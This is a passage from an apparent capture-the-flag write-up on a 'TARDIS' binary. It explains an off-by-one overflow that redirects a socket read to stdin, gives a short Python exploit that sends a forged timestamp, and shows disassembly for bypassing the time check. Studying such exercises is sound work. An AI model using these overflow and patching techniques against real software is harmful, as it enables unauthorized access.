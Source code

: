 When I put a bunch of "A"s into the prompt, it started reading from socket 65 (aka, 0x41 or "A") instead of from socket 3! There's an off-by-one vulnerability that allows you to change the socket identifier!

If you were to use "AAAAAAAA\0", it would overwrite the socket with a NUL byte, and instead of reading from socket 3 or 65, it would read from socket 0 - stdin. The very same socket we're already sending data to!

Here's the python code to exploit this:

<pre id='vimCodeElement'>
sys.stdout.write(<span class="Constant">&quot;01234567</span><span class="Special">\0</span><span class="Constant">&quot;</span>)
sys.stdout.flush()

time.sleep(<span class="Constant">2</span>) <span class="Comment"># Has to be at least 2</span>

sys.stdout.write(<span class="Constant">&quot;</span><span class="Special">\x6d\x2b\x59\x55</span><span class="Constant">&quot;</span>)
sys.stdout.flush()
</pre>

That hex value is a timestamp during the prescribed time. When it reads that from stdin rather than from the socket it opened, it thinks the time is right and we can then activate the TARDIS!

<h2>Part 3b: Skipping the timestamp check</h2>

Once again, in the interest of being able to test without waiting 2 seconds every time, we can disable the timestamp check altogether. To do that, we find the error message:

<pre id='vimCodeElement'>
<span class="Statement">.text</span>:<span class="Constant">00001409</span>  <span class="Identifier">lea</span>     <span class="Identifier">eax</span>, (<span class="Identifier">aAccessDeniedEx</span> - <span class="Constant">5000</span><span class="Identifier">h</span>)[<span class="Identifier">ebx</span>] <span class="Comment">; &quot;Access denied except between %s and %s\&quot;...</span>
</pre>

...and look backwards a little bit to find the jump that gets you there:

<pre>
<span class="Statement">.text</span>:<span class="Constant">000013BE</span> <span class="Constant">E8 45 FA FF FF</span>      <span class="Identifier">call</span>    <span class="Identifier">check_timestamp</span>
<span class="Statement">.text</span>:<span class="Constant">000013C3</span> <span class="Constant">85 C0</span>               <span class="Identifier">test</span>    <span class="Identifier">eax</span>, <span class="Identifier">eax</span>
<span class="Statement">.text</span>:<span class="Constant">000013C5</span> <span class="Constant">74 2F</span>               <span class="Identifier">jz</span>      <span class="Identifier">short</span> <span class="Identifier">loc_13F6</span>
<span class="Statement">.text</span>:<span class="Constant">000013C7</span> <span class="Constant">8D 83 22 E1 FF FF</span>   <span class="Identifier">lea</span>     <span class="Identifier">eax</span>, (<span class="Identifier">aTheTardisConso</span> - <span class="Constant">5000</span><span class="Identifier">h</span>)[<span class="Identifier">ebx</span>] <span class="Comment">; &quot;The TARDIS console is online!&quot;</span>
</pre>
